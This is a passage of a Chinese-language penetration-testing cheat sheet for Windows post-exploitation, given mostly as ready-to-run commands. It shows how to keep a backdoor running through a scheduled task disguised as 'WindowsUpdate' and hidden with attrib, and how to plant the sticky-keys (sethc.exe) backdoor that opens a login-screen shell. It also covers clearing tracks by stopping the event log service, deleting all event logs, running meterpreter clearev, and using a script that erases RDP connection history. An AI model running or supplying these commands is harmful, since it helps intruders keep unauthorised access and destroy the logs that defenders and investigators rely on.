 通过计划任务周期执行后门程序

1. 上传后门程序

2. 创建计划任务
    ```
    schtasks /create /tn WindowsUpdate /tr "C:\Windows\Temp\payload.exe" /sc minute /mo 1
    ```

3. 隐藏后门程序
    ```
    attrib "C:\Windows\Temp\payload.exe" +h +s
    ```

- 删除计划任务
    ```
    schtasks /delete /tn WindowsUpdate
    ```

**shift 后门**

在 windows 登录界面处，连续按5次 shift 来启动粘滞键，启动 sethc 程序

1. 拷贝文件
    ```
    copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
    copy c:\windows\system32\cmd.exe c:\windows\system32\dllcache\sethc.exe
    ```

2. 隐藏文件
    ```
    attrib C:\Windows\System32\sethc.exe +h +s
    attrib C:\Windows\System32\dllcache\sethc.exe +h +s
    ```

---

## 痕迹清理

**删除日志文件**
```bash
net stop eventlog    # 停止服务
del c:\Windows\System32\Winevt\Logs\* /Q
```
```bash
# 在 meterpreter 会话中
clearev
```

**3389 痕迹清除脚本**
```
echo off
color 0A
title 3389连接痕迹清除
mode con cols=88 lines=20
set /p fk= 确定要清空3389连接痕迹吗？(y/n)
if /i "%fk%"=="y" goto y
if /i "%fk%"=="n" goto n
call %0

:y
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client" /f
del /a /f /q %HOMEPATH%\Documents\Default.rdp
echo 命令执行成功,请手动查看是否清除.
pause >nul

:n
exit
```
